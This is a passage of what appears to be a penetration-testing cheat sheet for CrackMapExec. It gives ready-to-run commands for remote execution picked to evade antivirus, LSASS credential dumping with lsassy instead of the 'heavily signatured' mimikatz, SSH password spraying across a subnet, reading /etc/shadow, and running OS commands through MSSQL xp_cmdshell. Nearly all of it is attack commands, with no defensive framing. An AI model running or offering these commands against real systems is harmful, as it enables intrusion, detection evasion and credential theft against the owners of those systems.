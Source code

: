 ### Stealthy Execution Methods
```bash
# Prefer WinRM over SMB exec (less AV detection)
crackmapexec winrm 10.10.10.50 -u 'admin' -p 'Pass' -x 'command'

# Use WMI exec (no service creation)
crackmapexec smb 10.10.10.50 -u 'admin' -p 'Pass' --exec-method wmiexec -x 'command'

# Avoid mimikatz module (heavily signatured)
# Use lsassy or nanodump instead
crackmapexec smb 10.10.10.50 -u 'admin' -p 'Pass' -M lsassy
```

### Log Management
```bash
# CME creates logs in ~/.cme/logs/
# Organize by target for report generation

# Check database for all found credentials
cmedb

cme> creds
cme> hosts
cme> shares
```

---

## Protocol-Specific Commands

### SSH Protocol
```bash
# Credential validation over SSH
crackmapexec ssh 10.10.10.0/24 -u root -p passwords.txt

# Execute commands via SSH
crackmapexec ssh 10.10.10.100 -u root -p 'toor' -x 'cat /etc/shadow'

# Use SSH keys
crackmapexec ssh 10.10.10.100 -u root --key-file id_rsa
```

### MSSQL Protocol
```bash
# Enumerate MSSQL instances
crackmapexec mssql 10.10.10.0/24 -u 'sa' -p 'Password123'

# Execute SQL query
crackmapexec mssql 10.10.10.55 -u 'sa' -p 'Password123' -q 'SELECT @@version'

# Enable xp_cmdshell and execute OS commands
crackmapexec mssql 10.10.10.55 -u 'sa' -p 'Password123' -x 'whoami'
```
